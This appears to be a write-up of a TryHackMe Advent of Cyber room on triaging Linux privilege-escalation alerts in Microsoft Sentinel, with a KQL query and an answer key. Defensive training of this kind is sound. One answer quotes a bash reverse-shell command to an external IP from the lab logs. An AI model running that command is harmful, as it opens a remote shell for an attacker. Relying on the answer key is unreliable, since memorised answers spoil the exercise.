# SOC Alert Triaging - Tinsel Triage


Investigate and triage alerts through Microsoft Sentinel.

```
https://tryhackme.com/room/azuresentinel-aoc2025-a7d3h9k0p2
```

## Task 1 Introduction


The Best Festival Company's Security Operations Center was in chaos. Screens flickered, lights flashed, and the sound of alerts echoed through the room like a digital thunderstorm. The elves rushed between consoles, their faces lit by the glow of red and orange warnings. It was raining alerts, and no one knew where the storm had begun.

Whispers spread through the SOC as tension filled the air. Something strange was happening across the cloud environment, and the timing couldn't be worse. As the blizzard of alerts grew heavier, one name surfaced among the worried elves: the evil Easter Bunnies. But why now? And what were they after this time?

### Learning Objectives

- Understand the importance of alert triage and prioritisation
- Explore Microsoft Sentinel to review and analyse alerts
- Correlate logs to identify real activities and determine alert verdicts

---

## Task 2 Alert Triaging Primer

### It's Raining Alerts

McSkidy was notified that it's raining alerts; something unusual is happening within the Azure tenant. The dashboards are lighting up with suspicious activities, and early signs indicate a possible attack from the Evil Bunnies. The Best Festival Company must act fast to survive this onslaught before it affects the entire season's operations. 



Before investigating these alerts in Microsoft Sentinel, McSkidy must step back and understand what's happening. When alerts start flooding in, jumping straight into each one isn't efficient since not all alerts are equal. Some are noise, others are false positives, and a few may indicate real threats in progress.

This is where alert triaging becomes critical. Triaging helps security teams identify which alerts deserve immediate attention, which can be deprioritised, and which can be safely ignored for a moment. The process separates chaos from clarity, allowing analysts like McSkidy's SOC team to focus their time and resources where it truly matters.

### Alert Triaging

Now, let's continue the discussion about alert triaging. In the previous section, we introduced triaging and why it is essential. This time, we'll focus on how to approach it, what to prioritise, what to look for, and what to do right after an alert. 

When multiple alerts appear, analysts should have a consistent method to assess and prioritise them quickly. There are many factors you can consider when triaging, but these are the fundamental ones that should always be part of your process of identifying and evaluating alerts:


In short, these four represent the essential dimensions of triage:

- **Severity**: How bad?
- **Time**: When?
- **Context**: Where in the attack lifecycle?
- **Impact**: Who or what is affected?

They form a balanced foundation that's simple enough for analysts to apply quickly but comprehensive enough for informed decisions.

After reviewing these factors, decide on your next step: escalate to the incident response team, perform a deeper investigation, or close the alert if it's confirmed to be a false positive. A structured triage process like this helps ensure that time and resources are focused on what truly matters.

### Diving Deeper into an Alert

After identifying which alerts deserve further attention, it's time to dig into the details. Follow these steps to investigate and correlate effectively:

---

- **Investigate the alert in detail**.

Open the alert and review the entities, event data, and detection logic. Confirm whether the activity represents real malicious behaviour.

- **Check the related logs**.

Examine the relevant log sources. Look for patterns or unusual actions that align with the alert.

- **Correlate multiple alerts**.

Identify other alerts involving the same user, IP address, or device. Correlation often reveals a broader attack sequence or coordinated activity.

- **Build context and a timeline**.

Combine timestamps, user actions, and affected assets to reconstruct the sequence of events. This helps determine if the attack is ongoing or has already been contained.

- **Decide on the following action**.

If there are indicators of compromise, escalate to the incident response team. Investigate further if more evidence or correlation is needed. Close or suppress if the alert is a confirmed false positive, and update detection rules accordingly.

- **Document findings and lessons learned**.

Keep a clear record of the analysis, decisions, and remediation steps. Proper documentation strengthens SOC processes and supports continuous improvement.

---

With the triage complete and the investigation in motion, McSkidy begins piecing together the puzzle. Every alert, log entry, and timestamp brings her closer to uncovering what the Evil Bunnies are up to inside the Azure tenant. It's time to connect the dots and reveal the bigger picture behind the noise.

---

## Task 3 Environment Review

### Environment Review

Before proceeding with alert triaging, let’s first review the lab environment.

To get started, head over to the Azure Portal and search for Microsoft Sentinel.



Then, click the Sentinel instance, go to the **Logs** tab and select the custom log table named **Syslog_CL**.



After running the query, the logs for this lab environment should be rendered.



Now that we have reviewed the environment, let's proceed with the discussion of alert triaging in the next task.

---

## Task 4 Investigation Proper

### McSkidy Goes Triaging

Now that we have learned about triaging, let's move to the fun part, working inside the actual SOC environment of the Best Festival Company hosted in Azure. This is where McSkidy will put her triage skills to the test using Microsoft Sentinel, a cloud-native SIEM and SOAR platform. Sentinel collects data from various Azure services, applications, and connected sources to detect, investigate, and respond to threats in real time.

Through Sentinel, McSkidy can view and manage alerts, analyse incidents, and correlate activities across multiple logs. It provides visibility into what's happening within the Azure tenant and efficiently allows analysts to pivot from one alert to another. In this next part, we'll explore how McSkidy reviews alerts, drills into the evidence, and uses Sentinel's investigation tools to uncover the truth behind the Evil Bunnies' attack.

### Microsoft Sentinel in Action

To start the activity, navigate to **Microsoft Sentinel** and select your dedicated Sentinel instance. Then, under the **Threat management** dropdown, select the **Incidents** tab to view the incidents triggered during the current timeframe. You may also press the ``<<`` button to expand the view as shown in the image below.



**Note:** In case the alerts do not appear, refresh your browser page (see image below)



**Note 2:** In case you see no incidents, ensure you have set a custom date range for the incidents:



From the task images, there are eight open incidents, four of high severity and four of medium severity. Note that these numbers might differ in your lab environment.

Since we focus on addressing the most critical threats first, we’ll begin with the high-severity alerts. These represent potential compromise points or privilege-escalation activities that could lead to complete host control if left unchecked.

To begin the triage, we’ll examine one high-severity incident in detail: the **Linux PrivEsc—Kernel Module Insertion** alert. By clicking the alert, additional details appear on the right-hand side.



Upon checking the alert, as seen in the above image, the following details can be initially inferred:

1. There are three events related to the alert.
2. The alert was recently created (note that this varies based on your lab instance).
3. There are three entities involved in the alert.
4. The alert is classified as a Privilege Escalation tactic.

We can get further details from here by clicking the **View full details** button.



In the new view, we can see that in addition to the details shown in the summary, we can also view the possible **Incident Timeline** and **Similar Incidents**.




### Understanding Related Alerts

From the view above, you may notice that several alerts point to the same affected entities. This helps us understand the relationship and the possible sequence of events that impact the same host or user.

When multiple alerts are linked to a single entity, such as the same **machine**, **user**, or **IP address**, it typically indicates that these detections are not isolated incidents, but somewhat different stages of the same intrusion.

By analysing which alerts share the same entities, we can start to trace the attack path, from the initial access to privilege escalation and persistence.

For example, if the same VM triggered the following alerts:



At this stage, McSkidy has reviewed the high-severity alerts, identified the affected entities, and noticed that several detections are linked together. This initial triage allows her to prioritise which incidents need immediate attention and recognise when multiple alerts are actually part of a larger compromise.

With this foundational understanding, McSkidy is ready to move beyond surface-level triage and dive deeper into the underlying logs, which will be discussed in the next task.


---

## 🔑 Solution


How many entities are affected by the **Linux PrivEsc - Polkit Exploit Attempt** alert?

```
✅ 10
```

What is the severity of the **Linux PrivEsc - Sudo Shadow Access** alert?

```
✅ High
```

How many accounts were added to the sudoers group in the **Linux PrivEsc - User Added to Sudo Group** alert?

```
✅ 4
```

---

## Task 5 Diving Deeper Into Logs

### In-Depth Log Analysis with Sentinel

With the initial triage complete, McSkidy now examines the raw evidence behind these alerts. The next task involves diving into the underlying log data within Microsoft Sentinel to validate the alerts and uncover the exact attacker actions that triggered them. By analysing authentication attempts, command executions, and system changes, McSkidy can begin piecing together the full story of how the attack unfolded.

If we go back to the alert's full details view, we can try clicking the **Events** from the **Evidence** section.



From this view, we can definitely see the actual name of the kernel module installed in each machine and the time it was installed.

Diving deeper into this, we can try checking the raw events from a single host through a custom query. To do this, let's change the view into an editable KQL query and find all the events triggered from **app-02**.

1. Press the Simple mode dropdown from the upper-right corner and select KQL mode.
2. Modify the query with the following KQL query below.

```
set query_now = datetime(2025-10-30T05:09:25.9886229Z);
Syslog_CL
| where host_s == 'app-02'
| project _timestamp_t, host_s, Message
```

3. Press the **Run** button and wait for the results.



After executing the query, it can be seen that multiple potentially suspicious events occurred around the installation of the kernel module.

1. Execution of the `cp` (copy) command to create a shadow file backup.
2. Addition of the user account Alice to the sudoers group.
3. Modification of the backupuser account by root.
4. Insertion of the malicious_mod.ko module.
5. Successful SSH authentication by the root user.



Based on the surrounding events, including the execution of the cp command to create a shadow file backup, the addition of the user account Alice to the sudoers group, the modification of the backupuser account by root, and the successful SSH authentication by the root user, this activity appears highly unusual. The sequence suggests potential privilege escalation and persistence behaviour, indicating that the event may not be part of normal system operations and warrants further investigation.

Now that we have discussed the methodology for determining and reviewing alerts, let’s help McSkidy complete the assessment by examining the remaining alerts and answering the questions below.



---


## 🔑 Solution


What is the name of the kernel module installed in websrv-01?

```
✅ malicious_mod.ko
```

What is the unusual command executed within websrv-01 by the ops user?

```
✅ /bin/bash -i >& /dev/tcp/198.51.100.22/4444 0>&1
```

What is the source IP address of the first successful SSH login to storage-01?

```
✅172.16.0.12
```

What is the external source IP that successfully logged in as root to app-01?

```
✅ 203.0.113.45
```

Aside from the backup user, what is the name of the user added to the sudoers group inside app-01?

```
✅ deploy
```


